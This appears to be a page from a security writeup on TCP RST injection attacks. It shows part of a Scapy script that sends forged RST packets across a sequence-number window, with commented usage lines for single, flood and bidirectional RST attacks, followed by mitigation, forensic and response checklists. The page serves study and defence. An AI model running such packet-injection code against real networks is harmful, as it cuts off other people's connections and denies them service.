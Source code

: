 ```python
    """Scan sequence number window for valid RST"""
    for offset in range(0, window_size, 1000):
        seq_num = base_seq + offset
        rst_packet = IP(dst=target_ip) / \
                     TCP(dport=target_port, flags="R", seq=seq_num)
        send(rst_packet, verbose=0)
        time.sleep(0.001)

# Usage examples
# rst_attack_single("192.168.1.100", 80, "192.168.1.50", 12345, 1000000000)
# rst_flood("192.168.1.100", 80, 30)
# bidirectional_rst("192.168.1.50", "192.168.1.100", 12345, 80, 1000000000, 2000000000)
# sequence_window_scan("192.168.1.100", 80, 1000000000)
```

## 🛠️ Mitigation Best Practices
- **TCP RST Validation**: Verify RST packet legitimacy
- **Sequence Number Randomization**: Use cryptographically secure randomization
- **Connection Monitoring**: Track unexpected terminations
- **Application-Layer Protection**: Implement connection recovery
- **Network Segmentation**: Isolate critical connections
- **Intrusion Detection**: Deploy RST attack signatures

## 🔍 Forensic Analysis
- **Connection Logs**: Analyze sudden termination patterns
- **Packet Captures**: Examine RST packet timing and sources
- **Network Flow Data**: Identify RST packet origins
- **Application Logs**: Correlate with connection errors
- **System Metrics**: Monitor connection establishment rates

## 📋 Response Checklist
1. **Immediate**: Block suspicious RST sources
2. **Short-term**: Enable RST packet logging and monitoring
3. **Medium-term**: Implement connection authentication
4. **Long-term**: Deploy advanced TCP protection mechanisms
5. **Continuous**: Monitor for RST attack pattern evolution
